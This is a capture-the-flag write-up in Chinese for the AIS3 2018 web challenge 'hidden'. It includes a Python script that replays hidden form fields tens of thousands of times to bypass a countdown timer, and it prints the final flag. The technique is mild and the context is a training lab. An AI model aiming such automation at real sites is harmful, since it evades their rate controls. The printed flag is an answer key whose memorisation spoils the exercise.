




# AIS3 pre-exam 2018: hidden

**Category:** WEB  
**Points:** 2  

## Write-up

起始頁面：


在 `robots.txt` 發現其他路徑  



其中只有 `/_hidden_flag_.php` 有頁面呈現



頁面中只有一句話 `Hmm ... no flag here!`，以及一個倒數計時器，每次倒數時間為 10-20 秒，必須等待倒數結束才會出現 Button 連結至下一個頁面，透過檢視原始碼的方式發現點下按鈕之後會送出 `POST`，並且遞出 `c`、`s`，兩個參數，不過 `s` 透過特定的方式 Hash 過。



經由幾次確認過後 `c` 與 `s` 是相互對應的，每個頁面都有特定的 `c` 與 `s` 參數，為求快速送出資料抵達下一個頁面，又不被計時器所干涉，於是又生出一個 `main.py` 腳本了。

```python
#!/usr/bin/python3
import requests
import bs4
request = requests.session()

url = 'http://104.199.235.135:31332/_hidden_flag_.php'
r = request.get(url)

f = open('./data.txt', 'w')
#while True:
for i in range(47020+1):
    data = bs4.BeautifulSoup(r.text, "html.parser")
    data_out = data.find_all(type='hidden')
    c = data_out[0]['value']
    s = data_out[1]['value']

    payload = {'c': c,
               's': s}

    print(payload)
    r = request.post(url, data = payload)
    f.write(r.text)
    print(r.text)
```

由於不知道 Flag 會藏在第幾層，所以直接使用 `while True`，接著經過跑過頭的經驗，發現最大頁數為 47020，於是腳本重跑，並且將抓到的頁面結果存放至 `data.txt` 文件中。

在手動的檢視 `data.txt` 透過取代的功能，把重複的資訊取代掉，得到 Flag 的頁數，透過修改 `s`、`c` 到達特定頁面（這讓我想到以前玩炸彈超人的時候，死掉都會得到一組4x4矩陣的密碼組，讓玩家可以透過打密碼到達特定關卡再接再厲）。

接著在特定頁面中的 Header 中找到 flag。

然後這部分圖片都沒截圖到QAQ

**GetFlag:**

`AIS3{g00d_u_know_how_2_script_4_W3B_9d9ca9a19d424ed460e5b128f2db4829}`